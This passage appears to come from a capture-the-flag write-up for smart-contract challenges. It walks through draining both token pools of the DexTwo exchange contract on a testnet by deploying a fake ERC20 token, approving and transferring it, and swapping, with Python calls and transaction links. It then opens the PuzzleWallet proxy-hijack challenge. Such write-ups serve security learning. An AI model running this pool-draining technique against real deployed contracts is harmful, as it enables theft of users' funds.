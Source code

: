 1. Code and deploy a new ERC20 token (at: `0xc27a45c6D84F6AB7aAFECFB82d0853064e288261`)

```python
dextwoattack = DexTwoAttack.deploy('token3', 'TK3', '10000000000000', _from)
```

2. Approve the DexTwo contract spending limit for our new token

```python
dextwoattack.approve(dextwo.address, 2**256 - 1, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x8a25d4bcb33d461f536192aecc1a3137ba17293341ce2235c958c5b3d675e1bf

3. Transfer some of the new tokens to the DexTwo contract

```python
dextwoattack.transfer(dextwo.address, 10, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xd2a9c745602a8b5f87117939d22133e877657ff030e6eeb0258260bdd47a072c

4. Perform both swaps, one to drain the balance of Token 1 and the other one to drain the balance of Token 2

Block explorer: https://rinkeby.etherscan.io/tx/0x9a8a5397aed89c3fb0570c293f3465af37ebc658c5a1e241891774e749bb083c

Block explorer: https://rinkeby.etherscan.io/tx/0x8f1434586d9cbfb6774c8be95c3e8a2b538c3c09ee0a3b6978daff585898bded

5. Check whether we have successfully drained the pools or not

```python
# check the balances
balanceTK1 = dextwo.balanceOf(tk1, dextwo.address)
balanceTK2 = dextwo.balanceOf(tk2, dextwo.address)
print(f"The pool balances are: TK1: {balanceTK1}, TK2: {balanceTK2}")

# the pools have been drained
balance_assertion = balanceTK1 == 0 and balanceTK2 == 0
print(f"The pools have been drained: {balance_assertion}")
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x2ad048ca0de3d4f6c1bdd78862d202dad7a7d68bd9ed87fc0ea98a511efd205c

***

## PuzzleWallet

### Objectives

You'll need to hijack this wallet to become the admin of the proxy.

